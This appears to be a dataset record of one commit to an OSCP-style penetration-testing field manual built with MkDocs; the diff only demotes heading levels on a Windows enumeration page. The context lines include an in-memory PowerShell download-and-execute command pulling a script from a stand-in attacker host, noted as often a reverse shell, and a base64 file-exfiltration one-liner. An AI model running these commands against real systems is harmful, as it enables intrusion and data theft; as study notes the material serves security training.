

Before and after one commit to invae/oscp_field_manual, an MkDocs documentation site: the page built from docs/windows/win_enumeration.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
observed an indentation error; fixed parent-child relationship between powershell and children

````diff
--- a/docs/windows/win_enumeration.md
+++ b/docs/windows/win_enumeration.md
@@ -81,7 +81,7 @@ get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *
 Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
 ```
 
-## exfiltration through the screen
+### exfiltration through the screen
 
 Provided file size is small enough, set a variable `$path = "C:\Path\To\file"` then put the following prepared statement into the shell
 
@@ -92,16 +92,16 @@ $b64 = (Get-Content -Path $path -Encoding byte); [convert]::ToBase64String($b64)
 Note that the resulting b64 is in `utf-16le` and should be converted with the `iconv` utility before further usage.
 
 
-## using common scripts
+### using common scripts
 
-### execution without touching disk
+#### execution without touching disk
 
 1. host the `script.ps1`
 2. edit the `script.ps1` file to call w.e. function you want by placing the function call, including arguments, at the end of this file. This is often the reverse shell.
 3. use `IEX(new-object net.webClient).downloadString('http://attacker.com/script.ps1')`
 
 
-### execution with touching disk
+#### execution with touching disk
 
 > `PowerUp.ps1` is used as an example
 
````
